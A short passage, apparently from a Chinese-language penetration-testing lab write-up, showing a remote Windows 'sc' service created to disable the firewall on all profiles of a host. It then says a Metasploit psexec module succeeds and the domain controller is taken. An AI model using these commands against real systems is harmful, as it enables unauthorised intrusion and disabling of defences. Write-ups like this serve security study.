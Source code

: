 ```
sc \\192.168.93.30 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"

sc \\192.168.93.30 start unablefirewall
```

再次尝试执行 exploit/windows/smb/psexec 模块即可成功登录：

成功拿下域控：

![截图](c183d7a330b2601b25016a3ce5063205.png)
